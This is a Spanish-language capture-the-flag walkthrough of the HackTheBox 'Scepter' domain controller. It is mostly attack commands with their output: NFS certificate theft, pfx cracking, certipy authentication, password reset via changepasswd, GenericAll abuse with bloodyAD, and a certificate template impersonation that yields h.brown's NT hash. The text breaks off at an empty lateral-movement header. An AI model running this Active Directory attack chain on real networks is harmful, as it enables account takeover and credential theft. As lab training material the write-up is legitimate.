









---




---


# Enumeración Inicial

## nmap

- Los certificados SSL revelan el nombre de huésped: `dc01.scepter.htb`
    
- La firma de pymes está **activada y es necesaria**, lo que podría restringir los ataques de relés.
    

El servidor parece ser un **controlador de dominio de Windows** basado en servicios y nombres.

## enum4linux

**Principales hallazgos:**

- LDAP y SMB son accesibles.
    
- Las sesiones de null se permiten a través de SMB.
    
- Nombre del dominio: **SCEPTER**
    
- Dominio SID: **S-1-5-21-74879546-916818434-740295365**
    
- Versión de sistema operativo detectado: **Windows 10 / Server 2016/2019 (Construyendo 17763)**
    

Desafortunadamente, la mayoría de los intentos de enumeración de usuarios y grupos devueltos `STATUS_ACCESS_DENIED`.

### Enumeración NFS

El puerto **2049/tcp** (NFS) me llamó la atención. Revisé los `mount` disponibles:

```bash
showmount -e scepter.htb
```


## NFS Mount & File Discovery

Montamos y revisamos el NFS `/helpdesk` encontrado:



Podemos ver algunos archivos de certificados, y algunos `.pfx` que intentamos crackear:

```bash
sudo pfx2john lewis.pfx | tee -a lewishash
sudo pfx2john scott.pfx | tee -a scotthash
sudo pfx2john clark.pfx | tee -a clarkhash
```

Pero viendo que no lo conseguimos, creamos un `pfx` utilizando los `.key` y `.crt` dentro de `helpdesk`:

```bash
sudo openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt -passout pass:newpassword
```



```bash
certipy auth -pfx baker.pfx -dc-ip 10.10.11.65
```



Ahora que tenemos acceso, ejecutamos `bloodhound`:

```bash
bloodhound-python -u 'd.baker' --hashes <NTLM hashes> -d scepter.htb -ns 10.10.11.65 --auth-method ntlm -c All --zip --disable-autogc
```


# Acceso

Como podemos observar en la siguiente imagen, identificamos privilegios **OutboundControl** en el usuario `a.carter`.



Cambiamos la contraseña se `a.carter` usando `changepasswd.py`:

```bash
changepasswd.py 'scepter.htb'/'a.carter'@10.129.10.255 -reset -altuser 'd.baker' -althash : <NT hash>
```



Y una vez capaces de utilizar a `a.carter`, aprovechamos los permisos `GenericAll` que tiene sobre el grupo `STAFF ACCESS CERTIFICATE`.



Paso 1: Confirmar `GenericAll`:

```
bloodyAD -d scepter.htb -u a.carter -p 'Password' --host dc01.scepter.htb --dc-ip 10.10.11.65 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter

```

Paso 2: Modificar el atributo `mail` de `d.baker` para hacerse pasar por otro usuario:

```
bloodyAD -d scepter.htb -u a.carter -p 'Password' --host dc01.scepter.htb --dc-ip 10.10.11.65 set object d.baker mail -v h.brown@scepter.htb
	
```

bash

## Certificado de solicitud como H.Brown

Solicitamos un certificado ahora atado a `h.brown`:

```
certipy req -username "d.baker@scepter.htb" -hashes aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce -target dc01.scepter.htb -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'

```

bash

Autenticación como `h.brown`:

```
certipy auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.129.10.255 -username h.brown
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c

```


# Movimiento lateral y Escalada

